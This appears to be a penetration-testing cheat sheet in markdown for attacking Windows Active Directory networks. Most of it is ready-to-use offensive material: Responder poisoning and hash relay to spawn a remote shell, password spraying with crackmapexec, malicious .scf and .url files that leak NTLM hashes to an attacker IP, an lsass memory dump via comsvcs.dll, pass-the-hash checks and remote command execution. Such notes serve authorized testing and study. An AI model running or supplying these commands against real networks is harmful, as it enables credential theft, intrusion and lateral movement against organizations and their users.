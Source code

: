 ## Getting Creds
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_
* _Example index.scf file that can force any machine that views a share to send hash to attackers responder_
```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```

_Example .url file that when clicked will send hash to attackers responder_
```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```

* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* [kerberoast](https://room362.com/post/2016/kerberoast-pt1/) _stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_

## Enumeration
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user hass access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
